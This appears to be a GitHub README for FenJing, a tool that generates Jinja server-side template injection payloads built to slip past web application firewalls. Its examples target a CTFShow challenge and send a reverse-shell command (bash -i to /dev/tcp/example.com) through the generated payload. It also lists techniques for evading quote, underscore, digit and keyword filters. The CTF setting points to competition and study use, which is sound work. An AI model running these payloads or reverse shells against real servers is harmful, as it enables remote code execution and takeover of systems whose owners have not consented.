 ![](./fenjing.webp)

> Bypassing the WAF without knowing WAF

![中文](./README_zh.md)

## Introduction

FenJing is a payload generator targeting on Jinja SSTI. It targets at automatically detecting and bypassing WAF.


## Usage

Example：[CTFShow]web372

First, you should write a function that receive a string. If the string contains characters that would be WAF, return False, otherwise return True.

```python
@functools.lru_cache
def waf(s: str):

    time.sleep(0.1)
    r = requests.get(url, params = {
        "name": s
    })

    return r.text != ":("
```

Then pass this function and the shell command you need to this module. The module would generate payload for you.

```python
payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3003 0>&1\"")
```

Full example

```python
from ssti import shell_cmd

import functools
import time
import requests
import logging

logging.basicConfig(level = logging.WARNING)

# ctf.show web372
url = "http://ddde51f2-ff61-4f88-a9a7-3af3654a76b8.challenge.ctf.show/"

@functools.lru_cache
def waf(s: str):
    time.sleep(0.1)
    r = requests.get(url, params = {
        "name": s
    })

    return r.text != ":("

payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

r = requests.get(url, params = {
    "name": payload
})

print(r.text)
```

## Feature

It supports bypassing:

- `'` and `"`
- Most of the keywords
- any number
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### Bypassing for natural numbers:

It supports bypassing `+` or `-` when bypassing 0-9 at the same time.

It supports two ways for bypassing number detection:

- Full-width numerals
- Calculate any natural number with `+`, `-` and some special variables.  

### Bypassing for `'%c'`:

Support bypassing `'`, `"`, `g` and `lipsum`.

### Bypassing for `_`：

Support `(lipsum|escape|batch(22)|list|first|last)`
- number 22 support the bypassing mentioned above.

### Bypassing for any string:

Supprot bypassing `'`, `"`, `+`, `_`, `~` and any keyword.

It supports these forms:

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
- `'%c'*3%(97,97,97)`

### Bypassing for any attributes:

- `['aaa']`
- `.aaa`
- `|attr('aaa')`

### Bypassing for any item:

- `['aaa']`
- `.aaa`
- `.__getitem__('aaa')`


### Example for testing:

```python
from ssti import shell_cmd
import logging

logging.basicConfig(level = logging.WARNING)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "request", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]

    for word in blacklist:
        if word in s:
            return False
    return True

payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

print(payload)
```
